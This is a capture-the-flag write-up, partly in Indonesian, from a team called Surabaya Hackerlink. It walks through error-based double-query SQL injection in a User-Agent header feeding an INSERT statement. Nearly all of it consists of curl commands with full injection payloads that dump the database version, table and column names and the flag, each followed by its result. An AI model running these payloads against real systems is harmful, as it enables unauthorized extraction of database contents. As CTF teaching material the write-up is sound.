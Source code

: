 # Writeups-SHL-Dump-The-Flag

SQL injection Error based / Double query in insert User-Agent 

# EndPoint : http://instarget.net/IMissYou/visitor.php
# Parameter : User-Agent

Check Error MySQL :

curl -A "ua'" http://instarget.net/IMissYou/visitor.php;echo

You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''ua'', '')' at line 1

''ua'InjectPointHere', '')


dari sana kita dpt simpulkan Balance Query nya bagini

----------------------------
'), ( QueryErrorBasedNya ,'
----------------------------

Query Asli :

INSERT INTO 'visitor' VALUES ('', '$ip', '$ua', '')

-----------------------------
Query + Payload 

INSERT INTO 'visitor' VALUES ('', '$ip', ''), ( QueryErrorBasedNya ,'', '')

-----------------------------

semoga paham . aku bingung jelasinnya :'v

Check lagi ...

Query :
(select 1 from (Select count(*),Concat(('Check Output'),0x7e,floor(rand(0)*2))y from information_schema.tables group by y) x)

Test :

curl -A "'), ((select 1 from (Select count(*),Concat(('Check Output'),0x7e,floor(rand(0)*2))y from information_schema.tables group by y) x),'" http://instarget.net/IMissYou/visitor.php;echo

Yihaa mantap outputnya kluar :D
lanjut


// DUMP VERSION

curl -A "'), ((select 1 from (Select count(*),Concat((version()),0x7e,floor(rand(0)*2))y from information_schema.tables group by y) x),'" http://instarget.net/IMissYou/visitor.php;echo

result:
Duplicate entry '5.5.59~1' for key 'group_key'


// DUMP DATABASE

curl -A "'), ((select 1 from (Select count(*),Concat((database()),0x7e,floor(rand(0)*2))y from information_schema.tables group by y) x),'" http://instarget.net/IMissYou/visitor.php;echo

result :
Duplicate entry 'wtf_visitor~1' for key 'group_key'

Database() = wtf_visitor

// DUMP TABLE_NAME

curl -A "'), ((select 1 from (Select count(*),Concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e,floor(rand(0)*2))y from information_schema.tables group by y) x), '" http://instarget.net/IMissYou/visitor.php;echo

result:
Duplicate entry 'L5SQFHML~1' for key 'group_key'

Table_name = L5SQFHML

mainkan limit 0,1 1,1 dst 
kebetulan cuma 1 table ya cuma 0,1

// DUMP COLUMN_NAME

curl -A "'), ((select 1 from (Select count(*),Concat((select column_name from information_schema.columns where table_schema=database() and table_name='L5SQFHML' limit 0,1),0x7e,floor(rand(0)*2))y from information_schema.tables group by y) x), '" http://instarget.net/IMissYou/visitor.php;echo

result :
Duplicate entry 'id~1' for key 'group_key'

mainkan limit
0,1 = id
1,1 = ip
2,1 = ua
3,1 = FLAG_4Q9H3W28

curl -A "'), ((select 1 from (Select count(*),Concat((select column_name from information_schema.columns where table_schema=database() and table_name='L5SQFHML' limit 3,1),0x7e,floor(rand(0)*2))y from information_schema.tables group by y) x), '" http://instarget.net/IMissYou/visitor.php;echo

Duplicate entry 'FLAG_4Q9H3W28~1' for key 'group_key'

column_name = FLAG_4Q9H3W28


// EXTRACT DATA

curl -A "'), ((select 1 from (Select count(*),Concat((select concat(FLAG_4Q9H3W28) from L5SQFHML limit 0,1),0x7e,floor(rand(0)*2))y from information_schema.tables group by y) x), '" http://instarget.net/IMissYou/visitor.php;echo


result : 
Duplicate entry 'SHL{IqJl624URIDq}~1' for key 'group_key'

Submit to @viloid_bot
/flag SHL{IqJl624URIDq}


Happy Hacking ...

// Versailles ~ @viloid
// sec7or team ~ surabaya hackerlink



